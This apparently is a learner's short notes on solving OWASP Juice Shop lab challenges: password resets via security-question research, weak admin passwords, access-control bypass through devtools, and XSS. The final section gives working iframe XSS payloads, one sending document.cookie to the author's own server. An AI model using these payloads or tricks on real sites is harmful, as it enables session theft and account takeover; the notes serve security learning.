 # Broken authen
## Jim reset password
- jim@juice-sh.op
- check all review in the shop and google more about him
  - https://en.wikipedia.org/wiki/James_T._Kirk
  - James Kirk's brother, George Samuel Kirk, is first mentioned in 
## admin password...
just try easy well know password
# Sensitive Data Exposure
- /#/about
- something interesting in `legel.md` download link
# Broken Access Control 
1. Access the administration section of the store - What is the name of the page?
  - open devtool and check main.js
  - search for `admin`
2. devtool -> Storage -> user session storage
3. go to administration section and remove it
# XSS
- find iframe tag payload


# bonus track
just me try to learn how to craft xss for sending cookie to my server (nc)
```js
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<IFRAME SRC="javascript:alert(document.cookie);"></IFRAME>

'http://<ip>:<port>/?cookie=' + encodeURI(document.cookie);

<IFRAME SRC="javascript:document.location='http://<ip>:<port>/?cookie='+document.cookie;"></IFRAME> // works
```